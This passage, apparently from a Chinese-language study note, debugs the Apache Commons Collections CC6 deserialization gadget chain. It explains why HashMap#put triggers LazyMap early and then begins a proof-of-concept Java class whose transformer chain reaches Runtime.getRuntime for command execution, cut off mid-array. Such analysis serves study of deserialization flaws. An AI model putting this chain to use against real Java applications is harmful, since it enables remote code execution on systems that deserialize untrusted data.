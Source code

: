 
但是没有弹出计算器。进行调试，我发现它在经过 HashMap#hash 方法后跳转到 String#hashCode 方法去了，

![1](./img/332.png)

同时发现 HashMap#hash 方法的 key 参数不为 TiedMapEntry  对象，这也导致后面无法命令执行

按道理是应该直接跳转到 HashMap#hashCode 方法，问题就是因为`expMap.put(tme, "valuevalue");`

因为在 HashMap 的 put ⽅法中，也调用到了 hash(key) ，

![1](./img/334.png)

这⾥就导致 LazyMap 这个利⽤链在这⾥被调⽤了⼀遍，而前面并没有将恶意的 transformers 替换进 transformerChain 类中，所以没有触发命令执行。

这里只需要将 keykey 这个 Key，再从 outerMap 中移除即可，最后POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
```